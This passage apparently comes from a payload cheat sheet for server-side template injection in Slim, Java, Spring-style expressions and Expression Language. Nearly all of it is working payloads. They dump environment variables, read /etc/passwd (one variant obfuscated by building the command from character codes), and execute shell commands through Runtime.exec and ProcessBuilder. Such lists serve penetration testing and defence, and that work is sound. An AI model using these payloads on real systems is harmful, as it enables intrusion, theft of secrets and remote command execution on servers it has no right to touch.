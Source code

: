 
Execute code using SSTI for Slim engine.

```powershell
#{ %x|env| }
```

## Java

### Basic injection

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Retrieve the system’s environment variables

```java
${T(java.lang.System).getenv()}
```

### Retrieve /etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

## Expression Language EL

### Basic injection

```java
${1+1} 
#{1+1}
```

### Code Execution


```java
// Common RCE payloads
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

// Method using Runtime
#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
#{session.getAttribute("rtc").setAccessible(true)}
#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}

// Method using processbuilder
${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
```